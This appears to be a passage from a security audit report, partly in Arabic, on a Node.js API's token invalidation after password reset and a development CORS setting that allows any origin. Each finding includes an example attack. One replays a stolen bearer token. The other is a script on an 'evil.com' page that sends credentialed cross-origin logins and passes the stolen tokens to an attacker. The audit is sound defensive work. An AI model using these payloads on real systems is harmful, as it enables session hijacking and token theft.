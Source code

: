 **الثغرة:**
```javascript
// Password reset doesn't invalidate active sessions immediately
// Cache might still have old session data
```

**كيف يستغلها الهاكر:**
```javascript
// Scenario:
// 1. Hacker steals access token (XSS, MITM, etc.)
// 2. Victim resets password
// 3. Old access token still valid for 15 minutes!

const stolenToken = 'eyJhbGciOiJ...'; // Stolen before password reset

// Still works for token lifetime
fetch('/api/v1/users/profile', {
  headers: { 'Authorization': `Bearer ${stolenToken}` }
});
```

**Impact:**
- ✅ Token replay after password reset
- ✅ Grace period for attacker
- ✅ Unauthorized access window

**CVSS Score:** 6.0 (Medium)

---

### 10. **CORS Misconfiguration in Development** 🟡
**File:** `src/app.js`  
**Lines:** 54-58  
**Severity:** MEDIUM

**الثغرة:**
```javascript
const corsOptions = {
  origin: process.env.NODE_ENV === 'production'
    ? process.env.ALLOWED_ORIGINS?.split(',') || ['https://yourdomain.com']
    : true,  // ❌ Allows ANY origin in development!
  credentials: true
};
```

**كيف يستغلها الهاكر:**
```html
<!-- Malicious website: evil.com -->
<script>
// In development mode, CORS allows any origin
fetch('http://localhost:5000/api/v1/auth/login', {
  method: 'POST',
  credentials: 'include', // Send cookies!
  body: JSON.stringify({
    email: 'victim@example.com',
    password: 'guessed_password'
  })
})
.then(res => res.json())
.then(data => {
  // Steal tokens
  console.log('Stolen tokens:', data);
  sendToAttacker(data);
});
</script>
```

